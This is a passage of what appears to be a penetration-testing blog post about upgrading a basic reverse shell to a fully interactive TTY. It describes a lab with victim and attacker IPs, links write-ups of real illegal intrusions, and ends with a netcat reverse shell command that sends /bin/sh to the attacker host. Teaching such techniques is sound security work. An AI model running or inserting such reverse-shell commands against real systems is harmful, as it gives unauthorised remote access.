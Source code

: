 ```yaml
---
title: 'Upgrading TTY'
description: 'From simple tty to functional Shell'
pubDate: 'June 12 2025'
heroImage: '../../../assets/reverse_shell.png'
---
```


Every pentester knows that amazing feeling when they catch a reverse shell with netcat and see that oh-so-satisfying verbose netcat message followed by output from `id`.

And if other pentesters are like me, they also know that dreadful feeling when their shell is lost because they run a bad command that hangs and accidentally hit “Ctrl-C” thinking it will stop it but it instead kills the entire connection.

[![Oops!](https://blog.ropnop.com/images/2017/07/oops_ctrl_c.png)](https://blog.ropnop.com/images/2017/07/oops_ctrl_c.png)

Besides not correctly handling SIGINT, these"dumb” shells have other shortcomings as well:

- Some commands, like `su` and `ssh` require a proper terminal to run
- STDERR usually isn’t displayed
- Can’t properly use text editors like `vim`
- No tab-complete
- No up arrow history
- No job control
- Etc…

Long story short, while these shells are great to catch, I’d much rather operate in a fully interactive TTY.

I’ve come across some good resources that include very helpful tips and techniques for “upgrading” these shells, and wanted to compile and share in a post. Along with Pentest Monkey, I also learned the techniques from Phineas Fisher in his released videos and writeups of his illegal activities:

- [Pentest Monkey - Post Exploitation Without a TTY](http://pentestmonkey.net/blog/post-exploitation-without-a-tty)
- [Phineas Fisher Hacks Catalan Police Union Website](https://www.youtube.com/watch?v=oI_ZhFCS3AQ#t=25m53s)
- [Phineas Fisher - Hackingteam Writeup](http://pastebin.com/raw/0SNSvyjJ)

For reference, in all the screenshots and commands to follow, I am injecting commands in to a vulnerable web server (“VICTIM”) and catching shells from my Kali VM (“KALI”):

- **VICTIM IP**: 10.0.3.7
- **KALI IP**: 10.0.3.4

# Generating reverse shell commands

Everyone is pretty familiar with the traditional way of using netcat to get a reverse shell:

|                 |                                               |
| --------------- | --------------------------------------------- |
| ```<br>1<br>``` | ```bash<br>nc -e /bin/sh 10.0.3.4 4444<br>``` |
